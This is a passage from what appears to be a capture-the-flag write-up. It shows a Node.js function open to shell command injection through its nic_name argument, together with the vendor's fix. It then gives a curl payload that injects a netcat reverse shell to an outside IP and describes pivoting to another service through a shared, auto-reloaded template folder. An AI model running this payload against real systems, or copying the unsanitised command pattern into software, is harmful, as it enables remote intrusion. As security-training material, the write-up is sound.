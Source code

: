 The source code for it is as follows

**Before Patch**

```javascript
exports.gateway_ip_for = function(nic_name, cb) {
  trim_exec("ip r | grep " + nic_name + " | grep default | cut -d ' ' -f 3 | head -n1", cb);
};
```

**After patch by the vendor**

```javascript
function ensure_valid_nic(str) {
  if (str.match(/[^\w]/))
    throw new Error("Invalid nic name given: " + str);
}

exports.gateway_ip_for = function(nic_name, cb) {
  ensure_valid_nic(nic_name);
  trim_exec("ip r | grep " + nic_name + " | grep default | cut -d ' ' -f 3 | head -n1", cb);
};
```

As you can see there before the patch we had complete control over the ``nic_name`` parameter for the function ``gateway_ip_for``, and this is directly executed as shell command, Nice!. So basically we can get RCE on the ``Vec`` service by using the following payload

 ```bash
 curl "http://host:port/custom/?interface=| rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.113.21.179 5001 >/tmp/f #"
 ```

### Cross Mount RCE on the Core service

Now we have an RCE on the ``Vec`` service, which you can escalate to a reverse shell, but on searching the filesystem of the ``Vec`` service we can see that there is no flag, At this point the flag is not in the ``registry`` service, not in the ``Vec`` service so it has to be in the ``Core`` service so that means we have to somehow get file read on that service from the ``Vec`` service. 

Interestinly we can see a templates folder in the ``Vec`` service which has the index.html for the ``Core`` service, which is just the html for the initial link that we visited where we could give links and it would make a request, that seems a little sus.

If we run the command ``lsblk`` on the ``Vec`` service we can see that indeed the templates directory is mounted from the host system.
So at this point a natural idea will be to modify the index.html file and hope that'll get reflected on the ``Core`` service as well.

Our theory can be verified by seeing the line in the source code for the ``Core`` service 

```python
app.config['TEMPLATES_AUTO_RELOAD'] = True
```

So basically whenever a change is made to the templates directory it is automatically reloaded, and the change is immediately reflected on the website.
